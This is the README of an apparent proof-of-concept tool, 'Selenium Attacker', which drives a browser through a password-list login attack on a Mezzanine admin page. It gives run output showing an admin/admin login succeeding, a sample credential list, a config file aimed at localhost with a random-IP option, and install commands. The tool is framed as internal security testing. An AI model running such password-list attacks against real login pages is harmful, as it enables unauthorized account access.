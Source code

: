 Selenium Attacker 
====

## Overview

Password list attack to mezzanine admin page for internal test by using selenium

## Requirement
- python3
- pip3
- git
- Web Browser
  - this Poc-code use Chrome, if you would like to use other browser, you should change code in main.py
- Browser Driver
  - this Poc-code use chromedriver for MacOS, and so you should replace for your envirment when you don't use Mac

## Usage

- basic usage
```
(selenium_attacker) kazu0716 MacBook-Pro-4 $ python attacker.py
2018/02/22 02:33:02 - User: admin, Pass: admin, Result: Succeeded
2018/02/22 02:33:03 - ------------------------------------------------
2018/02/22 02:33:03 - Senario-3 : ログイン -> 特定4URLにアクセス
2018/02/22 02:33:03 - Access lists: ユーザー->内容->ページ

2018/02/22 02:33:03 - Logout: True
2018/02/22 02:33:03 - ----------------
2018/02/22 02:33:03 - Run senario
2018/02/22 02:33:03 - Clicked: ユーザー
2018/02/22 02:33:04 - Clicked: 内容
2018/02/22 02:33:07 - Clicked: ページ
2018/02/22 02:33:08 - Logout
```

- modify user_id and password 

```
(selenium_attacker) kazu0716 MacBook-Pro-4 $ head -n 3 account_list.csv
admin,admin@example.com,admin
richard59,richard59@green.biz,@2~OMZ025
melindajones,melindajones@lane.com,k9N?OPj76*fO
```

- attcker config file

```
[general]
url=http://127.0.0.1:8000/ja/admin/login/
account=username
#account=email
driver=phantomjs
#driver=chrome
ip_type=random

[interval]
max=1
min=1

[senario]
pattern=0

# pattern 設定値説明
# 1 ログイン -> 特定1URLにアクセス -> ログアウトする
# 2 ログイン -> 特定1URLにアクセス -> ログアウトしない
# 3 ログイン -> 特定4URLにアクセス -> ログアウトする
# 4 ログイン -> 特定4URLにアクセス -> ログアウトしない
# 5 ログイン -> ランダムな1URLにアクセス -> ログアウトする
# 6 ログイン -> ランダムな1URLにアクセス -> ログアウトしない
# 7 ログイン -> ランダムな4URLにアクセス -> ログアウトする
# 8 ログイン -> ランダムな4URLにアクセス -> ログアウトしない
# 9 ログイン -> ランダムな1～5URLにアクセス -> ログアウトする
# 0 ログイン -> ランダムな1～5URLにアクセス -> ログアウトしない
# 上記以外 ログインのみ
```

## Install

```
git clone https://github.com/kazu0716/selenium_attacker.git
cd selenium_attacker/
pip3 install -r requirement.txt
python3 attacker.py
```
